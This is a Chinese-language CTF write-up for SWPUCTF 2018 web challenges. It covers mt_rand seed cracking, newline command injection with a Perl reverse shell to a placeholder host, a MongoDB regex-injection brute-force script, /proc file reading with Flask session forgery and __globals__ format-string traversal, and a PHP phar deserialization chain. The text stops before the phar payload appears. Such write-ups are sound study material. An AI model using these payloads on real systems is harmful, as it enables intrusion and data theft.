


<!DOCTYPE html>
<html lang="zh">
<head><meta name="generator" content="Hexo 3.8.0">
    <title>zer0i3&#39;s Notes</title>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <link rel="stylesheet" href="https://cdn.staticfile.org/twitter-bootstrap/4.1.0/css/bootstrap.min.css">
    <link rel="stylesheet" href="https://cdn.bootcss.com/font-awesome/4.7.0/css/font-awesome.min.css">
    <link rel="stylesheet" href="/css/style.css">
    <script src="/js/init.js"></script>
</head></html>
<body>
    <div class="main-content" id="main-content">
        <div class="hide">
                <div class="hide-inner">
    <!--<div class="search">-->
        <!--<form action="#">-->
            <!--<input type="search" class="form-control" placeholder="Search ...">-->
        <!--</form>-->
    <!--</div>-->
    <div class="nav-menu widget">
        <ul class="navmenu-nav">
            
                <li class="menu-item">
                    <a href="/">Home</a>
                </li>
            
                <li class="menu-item">
                    <a href="/archives/">Archives</a>
                </li>
            
                <li class="menu-item">
                    <a href="/links/">Links</a>
                </li>
            
        </ul>
    </div>
    <div class="tag widget">
        <h3 class="widget-title">Tag</h3>
        <ul class="tag-list"><li class="tag-list-item"><a class="tag-list-link" href="/tags/ctf/">ctf</a><span class="tag-list-count">5</span></li><li class="tag-list-item"><a class="tag-list-link" href="/tags/docker/">docker</a><span class="tag-list-count">1</span></li><li class="tag-list-item"><a class="tag-list-link" href="/tags/mysql/">mysql</a><span class="tag-list-count">1</span></li><li class="tag-list-item"><a class="tag-list-link" href="/tags/scrapy/">scrapy</a><span class="tag-list-count">2</span></li><li class="tag-list-item"><a class="tag-list-link" href="/tags/web/">web</a><span class="tag-list-count">1</span></li><li class="tag-list-item"><a class="tag-list-link" href="/tags/writeup/">writeup</a><span class="tag-list-count">5</span></li><li class="tag-list-item"><a class="tag-list-link" href="/tags/漏洞/">漏洞</a><span class="tag-list-count">1</span></li></ul>
    </div>
    <div class="categories widget">
        <h3 class="widget-title">Categories</h3>
        <ul class="archive-list"><li class="archive-list-item"><a class="archive-list-link" href="/archives/2019/04/">April 2019</a><span class="archive-list-count">1</span></li><li class="archive-list-item"><a class="archive-list-link" href="/archives/2018/12/">December 2018</a><span class="archive-list-count">1</span></li><li class="archive-list-item"><a class="archive-list-link" href="/archives/2018/10/">October 2018</a><span class="archive-list-count">3</span></li><li class="archive-list-item"><a class="archive-list-link" href="/archives/2018/09/">September 2018</a><span class="archive-list-count">1</span></li><li class="archive-list-item"><a class="archive-list-link" href="/archives/2018/07/">July 2018</a><span class="archive-list-count">1</span></li><li class="archive-list-item"><a class="archive-list-link" href="/archives/2018/06/">June 2018</a><span class="archive-list-count">1</span></li><li class="archive-list-item"><a class="archive-list-link" href="/archives/2018/05/">May 2018</a><span class="archive-list-count">1</span></li></ul>
    </div>
</div>
        </div>
        <div class="show">
            <aside class="left-col">
                <button id="show-all" type="button" class="navbar-toggle">
    <i class="fa fa-bars"></i>
</button>
<div class="profile">
    <div class="avatar">
        <a href="/">
            
        </a>
    </div>
    <div class="header-author">
        <a href="/">
            <h1>zer0i3</h1>
        </a>
    </div>
    <hr class="divider">
    <div class="header-subtitle">
        <p class="description">A lot can happen between now and never.</p>
    </div>
    <hr class="divider">
    <div class="social">
        <a href="Mailto:i@aiyo.xyz" class="fa fa-envelope fa-2x"></a>
        <a href="https://github.com/zer0i3" class="fa fa-github fa-2x"></a>
        <a href="/atom.xml" class="fa fa-feed fa-2x"></a>
    </div>
</div>
            </aside>
            <main class="right-col">
                <article class="post">
        <header class="post-header">
            <h1 class="post-title">
                <a href="/2018/12/20/swpuctf-2018-web-writeup/">swpuctf-2018-web-writeup</a>
            </h1>
            <div class="post-meta">
            <span class="author">
                作者：
                <a href="#">
                    zer0i3
                </a>
            </span>
                <time class="post-date">
                    2018-12-20
                </time>
            </div>
        </header>
        
            <div class="post-content">
                <h2 id="用优惠码买个X"><a href="#用优惠码买个X" class="headerlink" title="用优惠码买个X?"></a>用优惠码买个X?</h2><p>注册登录后可获得15位长的优惠码，使用时提示优惠码已失效，请输入24位长的优惠码，访问Support页面提示必须要先购买过商品</p>
<a id="more"></a>
<p></p>
<p>之前扫描网站根目录发现<a href="http://www.zip，其中发现关键代码如下：" target="_blank" rel="noopener">www.zip，其中发现关键代码如下：</a></p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"><span class="comment">//生成优惠码</span></span><br><span class="line">$_SESSION[<span class="string">'seed'</span>]=rand(<span class="number">0</span>,<span class="number">999999999</span>);</span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">youhuima</span><span class="params">()</span></span>&#123;</span><br><span class="line">	mt_srand($_SESSION[<span class="string">'seed'</span>]);</span><br><span class="line">    $str_rand = <span class="string">"abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ"</span>;</span><br><span class="line">    $auth=<span class="string">''</span>;</span><br><span class="line">    $len=<span class="number">15</span>;</span><br><span class="line">    <span class="keyword">for</span> ( $i = <span class="number">0</span>; $i &lt; $len; $i++ )&#123;</span><br><span class="line">        <span class="keyword">if</span>($i&lt;=($len/<span class="number">2</span>))</span><br><span class="line">              $auth.=substr($str_rand,mt_rand(<span class="number">0</span>, strlen($str_rand) - <span class="number">1</span>), <span class="number">1</span>);</span><br><span class="line">        <span class="keyword">else</span></span><br><span class="line">              $auth.=substr($str_rand,(mt_rand(<span class="number">0</span>, strlen($str_rand) - <span class="number">1</span>))*<span class="number">-1</span>, <span class="number">1</span>);</span><br><span class="line">    &#125;</span><br><span class="line">    setcookie(<span class="string">'Auth'</span>, $auth);</span><br><span class="line">&#125;</span><br><span class="line"><span class="comment">//support</span></span><br><span class="line">	<span class="keyword">if</span> (preg_match(<span class="string">"/^\d+\.\d+\.\d+\.\d+$/im"</span>,$ip))&#123;</span><br><span class="line">        <span class="keyword">if</span> (!preg_match(<span class="string">"/\?|flag|&#125;|cat|echo|\*/i"</span>,$ip))&#123;</span><br><span class="line">               <span class="comment">//执行命令</span></span><br><span class="line">        &#125;<span class="keyword">else</span> &#123;</span><br><span class="line">              <span class="comment">//flag字段和某些字符被过滤!</span></span><br><span class="line">        &#125;</span><br><span class="line">	&#125;<span class="keyword">else</span>&#123;</span><br><span class="line">             <span class="comment">// 你的输入不正确!</span></span><br><span class="line">	&#125;</span><br><span class="line"><span class="meta">?&gt;</span></span><br></pre></td></tr></table></figure>
<p>可知24位优惠码需要爆破seed，进行伪造。这里使用php_mt_seed进行爆破，已知15位优惠码为<code>7oRKrYSG2kffxcE</code>,前几位出现在<code>$str_rand</code>中的位置为<code>33 14 53 46 17 60 54</code></p>
<p></p>
<p>得到seed为759331493，使用php7.1+的版本进行伪造并进行购买,进入support页面的函数逻辑。</p>
<p>发现返回内容为whois命令执行结果，猜测执行的命令为<code>system(&#39;whois &#39;.$ip);</code>，preg_match时存在m参数会进行跨行匹配，所以可以使用<code>%0a</code>进行绕过，使用burp发送<code>127.0.0.1%0als /</code>看到flag在根目录，但命令中过滤了flag与cat</p>
<ul>
<li><p>可使用<code>127.0.0.1%0amore /fla[f-i]</code>查看flag内容为<code>swpuctf{********08067_sec******$$%@!~~~~**}</code></p>
</li>
<li><p><code>ls -i /</code>发现flag的inode为706017，根据inode查看文件内容</p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">ip=127.0.0.1%0atac `find / -inum 706017`</span><br></pre></td></tr></table></figure>
</li>
<li><p>使用perl反弹shell</p>
<figure class="highlight perl"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">ip=<span class="number">127.0</span>.<span class="number">0</span>.<span class="number">1</span>%0aperl+-e+<span class="string">'use+Socket%3b$i%3d"your_ip"%3b$p%3d8000%3bsocket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"))%3bconnect(S,sockaddr_in($p,inet_aton($i)))%3bopen(STDIN,"&gt;%26S")%3bopen(STDOUT,"&gt;%26S")%3bopen(STDERR,"&gt;%26S")%3bexec("/bin/sh+-i")%3b'</span></span><br></pre></td></tr></table></figure>
</li>
</ul>
<h2 id="Injection"><a href="#Injection" class="headerlink" title="Injection"></a>Injection</h2><p>查看首页源代码发现<code>tips:info.php</code>,info.php为phpinfo页面,该页面发现<code>MongoDB Support</code></p>
<p>尝试mongo注入，访问</p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">http://123.206.213.66:45678/check.php?username=admin&amp;password[$ne]=123&amp;vertify=d4dk</span><br></pre></td></tr></table></figure>
<p>提示<code>Nice!But it is not the real passwd</code>，确定注入点存在，写脚本跑一下</p>
<figure class="highlight python"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br></pre></td><td class="code"><pre><span class="line"><span class="keyword">import</span> pytesseract</span><br><span class="line"><span class="keyword">from</span> PIL <span class="keyword">import</span> Image</span><br><span class="line"><span class="keyword">import</span> requests</span><br><span class="line"><span class="keyword">import</span> os</span><br><span class="line"><span class="keyword">import</span> string</span><br><span class="line"></span><br><span class="line">password = <span class="string">''</span></span><br><span class="line">string_list = string.ascii_letters + string.digits</span><br><span class="line"></span><br><span class="line">s = requests.Session()</span><br><span class="line"><span class="function"><span class="keyword">def</span> <span class="title">try_login</span><span class="params">(j)</span>:</span></span><br><span class="line">    res = s.get(<span class="string">'http://123.206.213.66:45678/vertify.php'</span>)</span><br><span class="line">    image_name = os.path.join(os.path.dirname(__file__),<span class="string">'yzm.jpg'</span>)</span><br><span class="line">    <span class="keyword">with</span> open(image_name, <span class="string">'wb'</span>) <span class="keyword">as</span> file:</span><br><span class="line">        file.write(res.content)</span><br><span class="line">    image = Image.open(image_name)</span><br><span class="line">    code = pytesseract.image_to_string(image)</span><br><span class="line">    res = s.get(<span class="string">'http://123.206.213.66:45678/check.php?username=admin&amp;password[$regex]=^'</span>+password + j +<span class="string">'&amp;vertify='</span>+code)</span><br><span class="line">    <span class="keyword">return</span> res</span><br><span class="line">is_found = <span class="keyword">False</span></span><br><span class="line"><span class="keyword">for</span> i <span class="keyword">in</span> range(<span class="number">32</span>):</span><br><span class="line">    <span class="keyword">if</span> <span class="keyword">not</span> is_found:</span><br><span class="line">        <span class="keyword">for</span> j <span class="keyword">in</span> string_list:</span><br><span class="line">            res = try_login(j)</span><br><span class="line">            <span class="keyword">while</span> (<span class="string">'CAPTCHA'</span> <span class="keyword">in</span> res.content):</span><br><span class="line">                res = try_login(j)</span><br><span class="line">            <span class="keyword">if</span> <span class="string">'Nice!But it is not the real passwd'</span> <span class="keyword">in</span> res.content:</span><br><span class="line">                password += j</span><br><span class="line">                <span class="keyword">print</span> password</span><br><span class="line">                <span class="keyword">break</span></span><br><span class="line">            <span class="keyword">elif</span> <span class="string">'username or password incorrect'</span> <span class="keyword">in</span> res.content:</span><br><span class="line">                <span class="keyword">if</span> j == string_list[<span class="number">-1</span>]:</span><br><span class="line">                    is_found = <span class="keyword">True</span></span><br><span class="line"><span class="keyword">print</span> <span class="string">'final pass is:'</span>,password</span><br></pre></td></tr></table></figure>
<p></p>
<p>爆出密码为skmun，登录得到flag，<code>You got it! swpuctf{1ts_N05ql_Inj3ction}</code></p>
<h2 id="皇家线上赌场"><a href="#皇家线上赌场" class="headerlink" title="皇家线上赌场"></a>皇家线上赌场</h2><p>首页发现存在<code>http://107.167.188.241/static?file=test.js</code>可以读取文件，尝试读取/proc目录下的文件获取系统信息，当访问<code>107.167.188.241/static?file=/proc/mounts</code>时可以发现web路径为<code>/home/ctf/web_assli3fasdf</code>,同时出题人给出提示</p>
<figure class="highlight python"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line"><span class="keyword">if</span> filename != <span class="string">'/home/ctf/web/app/static/test.js'</span> <span class="keyword">and</span> filename.find(<span class="string">'/home/ctf/web/app'</span>) != <span class="number">-1</span>:</span><br><span class="line">            <span class="keyword">return</span> abort(<span class="number">404</span>)</span><br></pre></td></tr></table></figure>
<p>读取app的文件时需要满足请求中不包含<code>/home/ctf/web/app</code>路径。尝试发现test.js文件的实际路径为<code>/home/ctf/web_assli3fasdf/app/static/test.js</code>,当前工作目录为<code>/home/ctf/web_assli3fasdf</code>，所以可用<code>/proc/self/cwd</code>等价替换，这样访问<code>/proc/self/cwd/app/static/test.js</code>也可得到test.js</p>
<p>访问<code>/proc/self/cwd/app/__init__.py</code>得到</p>
<figure class="highlight python"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br></pre></td><td class="code"><pre><span class="line"></span><br><span class="line"><span class="keyword">from</span> flask <span class="keyword">import</span> Flask</span><br><span class="line"><span class="keyword">from</span> flask_sqlalchemy <span class="keyword">import</span> SQLAlchemy</span><br><span class="line"><span class="keyword">from</span> .views <span class="keyword">import</span> register_views</span><br><span class="line"><span class="keyword">from</span> .models <span class="keyword">import</span> db</span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="function"><span class="keyword">def</span> <span class="title">create_app</span><span class="params">()</span>:</span></span><br><span class="line">    app = Flask(__name__, static_folder=<span class="string">''</span>)</span><br><span class="line">    app.secret_key = <span class="string">'9f516783b42730b7888008dd5c15fe66'</span></span><br><span class="line">    app.config[<span class="string">'SQLALCHEMY_DATABASE_URI'</span>] = <span class="string">'sqlite:////tmp/test.db'</span></span><br><span class="line">    register_views(app)</span><br><span class="line">    db.init_app(app)</span><br><span class="line">    <span class="keyword">return</span> app</span><br></pre></td></tr></table></figure>
<p>访问<code>/proc/self/cwd/app/views.py</code>得到</p>
<figure class="highlight python"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br></pre></td><td class="code"><pre><span class="line"></span><br><span class="line"><span class="function"><span class="keyword">def</span> <span class="title">register_views</span><span class="params">(app)</span>:</span></span><br><span class="line"><span class="meta">    @app.before_request</span></span><br><span class="line">    <span class="function"><span class="keyword">def</span> <span class="title">reset_account</span><span class="params">()</span>:</span></span><br><span class="line">        <span class="keyword">if</span> request.path == <span class="string">'/signup'</span> <span class="keyword">or</span> request.path == <span class="string">'/login'</span>:</span><br><span class="line">            <span class="keyword">return</span></span><br><span class="line">        uname = username=session.get(<span class="string">'username'</span>)</span><br><span class="line">        u = User.query.filter_by(username=uname).first()</span><br><span class="line">        <span class="keyword">if</span> u:</span><br><span class="line">            g.u = u</span><br><span class="line">            g.flag = <span class="string">'swpuctf&#123;xxxxxxxxxxxxxx&#125;'</span></span><br><span class="line">            <span class="keyword">if</span> uname == <span class="string">'admin'</span>:</span><br><span class="line">                <span class="keyword">return</span></span><br><span class="line">            now = int(time())</span><br><span class="line">            <span class="keyword">if</span> (now - u.ts &gt;= <span class="number">600</span>):</span><br><span class="line">                u.balance = <span class="number">10000</span></span><br><span class="line">                u.count = <span class="number">0</span></span><br><span class="line">                u.ts = now</span><br><span class="line">                u.save()</span><br><span class="line">                session[<span class="string">'balance'</span>] = <span class="number">10000</span></span><br><span class="line">                session[<span class="string">'count'</span>] = <span class="number">0</span></span><br><span class="line"></span><br><span class="line"><span class="meta">    @app.route('/getflag', methods=('POST',))</span></span><br><span class="line"><span class="meta">    @login_required</span></span><br><span class="line">    <span class="function"><span class="keyword">def</span> <span class="title">getflag</span><span class="params">()</span>:</span></span><br><span class="line">        u = getattr(g, <span class="string">'u'</span>)</span><br><span class="line">        <span class="keyword">if</span> <span class="keyword">not</span> u <span class="keyword">or</span> u.balance &lt; <span class="number">1000000</span>:</span><br><span class="line">            <span class="keyword">return</span> <span class="string">'&#123;"s": -1, "msg": "error"&#125;'</span></span><br><span class="line">        field = request.form.get(<span class="string">'field'</span>, <span class="string">'username'</span>)</span><br><span class="line">        mhash = hashlib.sha256((<span class="string">'swpu++&#123;0.'</span> + field + <span class="string">'&#125;'</span>).encode(<span class="string">'utf-8'</span>)).hexdigest()</span><br><span class="line">        jdata = <span class="string">'&#123;&#123;"&#123;0&#125;":'</span> + <span class="string">'"&#123;1.'</span> + field + <span class="string">'&#125;", "hash": "&#123;2&#125;"&#125;&#125;'</span></span><br><span class="line">        <span class="keyword">return</span> jdata.format(field, g.u, mhash)</span><br></pre></td></tr></table></figure>
<p>得到secret_key后即可在本地使用python3.5版本的flask进行session伪造：</p>
<figure class="highlight python"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">.eJw1i8sOQDAQAP9lzw6s0sfPyG67TQQrUU7i3xExt5lkTmCaSaNA8D8VxPXQ_SuPlC0P-zqJQgDKKXPtDTvs0bC1DRJb5uii6ZCSlZbq7BEqOIpsSou8V1pGhesG-uUg4A.XBdi4w.AJv5pxsqEtarLHf0HnXIp-XevmY</span><br></pre></td></tr></table></figure>
<p>伪造session后可以进入getflag函数的逻辑</p>
<p>阅读源码发现将会访问<code>g.u</code>的field属性，而flag在<code>g.flag</code>中，所以可知需要通过field去访问g这个全局变量，想到使用<code>__globals__</code>方法获取全局变量，结合出题人给出的提示u存在一个save方法，结合代码逻辑进行尝试</p>
<p>最终构造payload：</p>
<figure class="highlight"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">field=save.__globals__[db].init_app.__globals__[current_app].__dict__[view_functions][index].__globals__[g].flag</span><br></pre></td></tr></table></figure>
<p>获取flag:</p>
<figure class="highlight json"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">&#123;<span class="attr">"save.__globals__[db].init_app.__globals__[current_app].__dict__[view_functions][index].__globals__[g].flag"</span>:<span class="string">"swpuctf&#123;tHl$_15_4_f14G&#125;"</span>, <span class="attr">"hash"</span>: <span class="string">"b2ce49ebfd5bb7905b0fee5069fef8d98a0c2e515140be90c36e8dbf4b2288bf"</span>&#125;</span><br></pre></td></tr></table></figure>
<h2 id="SimplePHP"><a href="#SimplePHP" class="headerlink" title="SimplePHP"></a>SimplePHP</h2><p>访问首页后发现<code>http://120.79.158.180:11115/file.php?file=</code>页面存在文件读取，可以获取源码进行审计。发现上传图片后使用<code>file.php?file=</code>进行读取时将使用<code>file_exists</code>进行检测，结合class.php的内容，确定利用过程为构造phar文件反序列化读取特定文件。class.php主要内容如下:</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br><span class="line">54</span><br><span class="line">55</span><br><span class="line">56</span><br><span class="line">57</span><br><span class="line">58</span><br><span class="line">59</span><br><span class="line">60</span><br><span class="line">61</span><br><span class="line">62</span><br><span class="line">63</span><br><span class="line">64</span><br><span class="line">65</span><br><span class="line">66</span><br><span class="line">67</span><br><span class="line">68</span><br><span class="line">69</span><br><span class="line">70</span><br><span class="line">71</span><br><span class="line">72</span><br><span class="line">73</span><br><span class="line">74</span><br><span class="line">75</span><br><span class="line">76</span><br><span class="line">77</span><br><span class="line">78</span><br><span class="line">79</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">C1e4r</span></span></span><br><span class="line"><span class="class"></span>&#123;</span><br><span class="line">    <span class="keyword">public</span> $test;</span><br><span class="line">    <span class="keyword">public</span> $str;</span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__construct</span><span class="params">($name)</span></span></span><br><span class="line"><span class="function">    </span>&#123;</span><br><span class="line">        <span class="keyword">$this</span>-&gt;str = $name;</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__destruct</span><span class="params">()</span></span></span><br><span class="line"><span class="function">    </span>&#123;</span><br><span class="line">        <span class="keyword">$this</span>-&gt;test = <span class="keyword">$this</span>-&gt;str;</span><br><span class="line">        <span class="keyword">echo</span> <span class="keyword">$this</span>-&gt;test;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">Show</span></span></span><br><span class="line"><span class="class"></span>&#123;</span><br><span class="line">    <span class="keyword">public</span> $source;</span><br><span class="line">    <span class="keyword">public</span> $str;</span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__construct</span><span class="params">($file)</span></span></span><br><span class="line"><span class="function">    </span>&#123;</span><br><span class="line">        <span class="keyword">$this</span>-&gt;source = $file;</span><br><span class="line">        <span class="keyword">echo</span> <span class="keyword">$this</span>-&gt;source;</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__toString</span><span class="params">()</span></span></span><br><span class="line"><span class="function">    </span>&#123;</span><br><span class="line">        $content = <span class="keyword">$this</span>-&gt;str[<span class="string">'str'</span>]-&gt;source;</span><br><span class="line">        <span class="keyword">return</span> $content;</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__set</span><span class="params">($key,$value)</span></span></span><br><span class="line"><span class="function">    </span>&#123;</span><br><span class="line">        <span class="keyword">$this</span>-&gt;$key = $value;</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">_show</span><span class="params">()</span></span></span><br><span class="line"><span class="function">    </span>&#123;</span><br><span class="line">        <span class="keyword">if</span>(preg_match(<span class="string">'/http|https|file:|gopher|dict|\.\.|f1ag/i'</span>,<span class="keyword">$this</span>-&gt;source)) &#123;</span><br><span class="line">            <span class="keyword">die</span>(<span class="string">'hacker!'</span>);</span><br><span class="line">        &#125; <span class="keyword">else</span> &#123;</span><br><span class="line">            highlight_file(<span class="keyword">$this</span>-&gt;source);</span><br><span class="line">        &#125;</span><br><span class="line">        </span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__wakeup</span><span class="params">()</span></span></span><br><span class="line"><span class="function">    </span>&#123;</span><br><span class="line">        <span class="keyword">if</span>(preg_match(<span class="string">"/http|https|file:|gopher|dict|\.\./i"</span>, <span class="keyword">$this</span>-&gt;source)) &#123;</span><br><span class="line">            <span class="keyword">echo</span> <span class="string">"hacker~"</span>;</span><br><span class="line">            <span class="keyword">$this</span>-&gt;source = <span class="string">"index.php"</span>;</span><br><span class="line">        &#125;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">Test</span></span></span><br><span class="line"><span class="class"></span>&#123;</span><br><span class="line">    <span class="keyword">public</span> $file;</span><br><span class="line">    <span class="keyword">public</span> $params;</span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__construct</span><span class="params">()</span></span></span><br><span class="line"><span class="function">    </span>&#123;</span><br><span class="line">        <span class="keyword">$this</span>-&gt;params = <span class="keyword">array</span>();</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__get</span><span class="params">($key)</span></span></span><br><span class="line"><span class="function">    </span>&#123;</span><br><span class="line">        <span class="keyword">return</span> <span class="keyword">$this</span>-&gt;get($key);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">get</span><span class="params">($key)</span></span></span><br><span class="line"><span class="function">    </span>&#123;</span><br><span class="line">        <span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="keyword">$this</span>-&gt;params[$key])) &#123;</span><br><span class="line">            $value = <span class="keyword">$this</span>-&gt;params[$key];</span><br><span class="line">        &#125; <span class="keyword">else</span> &#123;</span><br><span class="line">            $value = <span class="string">"index.php"</span>;</span><br><span class="line">        &#125;</span><br><span class="line">        <span class="keyword">return</span> <span class="keyword">$this</span>-&gt;file_get($value);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">file_get</span><span class="params">($value)</span></span></span><br><span class="line"><span class="function">    </span>&#123;</span><br><span class="line">        $text = base64_encode(file_get_contents($value));</span><br><span class="line">        <span class="keyword">return</span> $text;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br><span class="line"><span class="meta">?&gt;</span></span><br></pre></td></tr></table></figure>
<p>结合使用以上类，可构造利用过程C1e4r-&gt;__destruct方法-&gt;<code>echo $this-&gt;test</code>-&gt;调用test的toString方法-&gt;构造test为Show类的实例-&gt;<code>$this-&gt;str[&#39;str&#39;]-&gt;source</code> -&gt;调用str[‘str’]的source属性 -&gt; 构造 str[‘str’]为Test的实例 -&gt; 访问Test实例一个不存在的属性-&gt; _get方法-&gt;get方法-&gt;file_get方法-&gt;读取$params数组中source键的值表示的文件名。根据以上逻辑，构造phar包的内容如下：</p>
